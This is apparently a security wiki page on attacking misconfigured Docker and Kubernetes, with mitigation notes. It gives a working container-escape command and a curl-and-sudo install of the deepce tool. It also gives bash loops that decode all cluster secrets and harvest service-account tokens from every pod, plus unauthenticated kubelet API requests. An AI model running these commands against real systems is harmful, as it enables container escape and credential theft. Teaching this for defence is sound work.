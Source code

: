 # Container Hacking Techniques

- [Container Hacking Techniques](#container-hacking-techniques)
  - [Docker](#docker)
    - [Leveraging insecure mount](#leveraging-insecure-mount)
    - [Exploiting common missconfigurations - deepce.sh](#exploiting-common-missconfigurations---deepcesh)
  - [Kubernetes](#kubernetes)
    - [Retrieving secrets](#retrieving-secrets)
      - [Service Account secrets](#service-account-secrets)
      - [Interacting with kubelet](#interacting-with-kubelet)

This wiki aims to summarize many of the most interesting hacking and discovery approaches to identify and exploit missconfigurations in containerized environments.
Check [Container Security In Depth](../../container-security-in-depth.md) for understanding proper security measures to be applied to reduce the risk and likelihood of success of an attacker.

## Docker

### Leveraging insecure mount

As explained in [container-security-in-depth.md](../../container-security-in-depth.md), Docker group is sensitive and must be highly restricted, combined with secure policies restricting the mounts.

If not properly configured, this can be exploited by mounting the whole host filesystem into the container and then scaping with chroot capabilities. Check [docker - gtfobins](https://gtfobins.github.io/gtfobins/docker/) for further information.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![insecure mount](img/00-insecure-mount.png)

### Exploiting common missconfigurations - deepce.sh

[Deepce](https://github.com/stealthcopter/deepce) is an interesting contribution from open source container focused in exploiting well known missconfigurations for escaping containers and escalating privileges.

To install it:

```bash
sudo curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o /usr/local/bin/deepce.sh; sudo  chmod +x /usr/local/bin/deepce.sh
```

```bash
deepce.sh -e DOCKER
```

![Deepce](img/01-deepce-execution.png)

Following screenshot showcase possible exploitable paths to leverage access to the system. The last step is executing the exploit mentioned in [#leveraging-insecure-mount](#leveraging-insecure-mount).

## Kubernetes

### Retrieving secrets

Kubernetes secrets shall not be considered a proper robust measure for managing secrets for applications. Either `read` permissions over secrets in namespace or cluster-wide or having the possibility to exec in the pod, can expose the real content of the secrets.

Secrets are `base64 encoded` so those are easy to retrieve.

If a user has access to the pod, it is not complicated to obtain the values.

Here I register some discovery techniques:

```bash
for secret in $(kubectl get secrets --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  data=$(kubectl get secrets ${name} -n ${namespace} -o=jsonpath="{.data}")
  echo ${data} | jq -r 'to_entries[] | .key + ": " + .value' | while IFS=": " read -r key value; do
      echo -e "\e[32mSecret name: $key:\e[0m\n\e[34mSecret value: $(echo $value | base64 --decode)\e[0m\n\n"
  done
done
```

Get all volumes mounted from secret in host:

```bash
for container in $(crictl ps | tail -n+2 | awk {'print $1'});do
  for volume in $(crictl inspect $container | jq -r .status.mounts[].hostPath |  grep "kubernetes.io~secret");do
    for data in $(ls ${volume}); do
      cat ${volume}/${data}
    done
  done
done
```

> \[!NOTE\]
> Above automation needs to be executed in each of the nodes to retrieve the node specific secrets mounted as volumes for the containers. Requires root permission, but evidences that the secrets are accessible. In an ideal scenario, the administrator shall not access the real secrets of an application of the bank, only because he should manage the infra. Makes sense?

Summary:

- Secrets are accessible either by environment variables or mounts. This is not a big challenge to retrieve, so RBAC takes a lot of importance in protecting the organization as well as using dynamic secret retrieval with Vault Managers instead of leveraging kubernetes secrets directly.
- Secrets are defined in base64 and therefore **not encrypted**. If someone has `read` permission over secrets, it is trivial to retrieve the real value of those.

#### Service Account secrets

By default if not properly configured, a kubernetes cluster mounts the `default` service account in each `namespace` for each pod deployed there. Also, other service accounts may have been created in the cluster and mapped against a pod (or deployment, daemonsets, statefulsets definitions).

These service accounts are mounted in `/var/run/secrets/kubernetes.io/serviceaccount/` of the pod as shown in below example.

![SA](img/02-sa-mount.png)

A `"good"` hacking practice is to obtain all service accounts that are visible (depending on the permissions), trying to get a more privileged sa than the user permissions (e.g. Jenkins with `Kubernetes Cloud` is likely to have interesting permissions.)

```bash
for secret in $(kubectl get pods --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  mounts_=$(kubectl exec -it ${name} -n ${namespace} -- ls /var/run/secrets/kubernetes.io/serviceaccount/)
  token=$(kubectl exec -it ${name} -n ${namespace} -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
  echo -e "\e[32mPod: $name in $namespace:\e[0m\n\e[34mSA mounts\n $mounts_:\n token $token\e[0m\n\n"
done
```

![Token retrieval](img/03-token-retrieval.png)

> \[!CAUTION\]
> Notice that not all the returns are successful. As explained in other chapter, using secure images can reduce the attack surface. There are very limited images such as the ones built from scratch or distroless that do not have even `ls` or `cat` commands available. It could also happen that the system calls are filtered with `seccomp`. Having said that, as you notice in the screenshot, having exec permissions is quite critical to be able to retrieve majority of the secrets of the cluster and therefore the RBAC must be well defined and tight to protect the organization.

#### Interacting with kubelet

If kubelet service is not authorized (it is not common, but could happen) we may be able to interact with the api to compromise the cluster.

There is no documentation about the API perse available for the public. However the code is available here: [Kubelet server](https://github.com/kubernetes/kubernetes/blob/4a6935b31fcc4d1498c977d90387e02b6b93288f/pkg/kubelet/server/server.go). The api definitions and the routes are exposed here.

Useful reference: [Blog about kubelet API](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html#logs)

Examples:

1. Retrieve pods running in node.

```bash
curl --insecure https://172.31.41.69:10250/pods
```

2. Get logs of pod and container.

```bash
curl --insecure https://172.31.41.69:10250/containerLogs/default/kube-hunter-2mhkq/kube-hunter
```

3. Get running pods

```bash
curl --insecure https://172.31.41.69:10250/runningpods
```

4. List all kubelet available logs. Including `user-data, calico, journal, pods, syslog, etc.`. Many relevant information that can help to build a successful exploitable path.

```bash
curl --insecure https://172.31.41.69:10250/logs/
```

5. Get specific logs:

```bash
curl --insecure https://172.31.41.69:10250/logs/amazon/ssm/errors.log
```

To fix this a proper authorization strategy must be present in kubelet configuration (`/var/lib/kubelet/config.yaml`)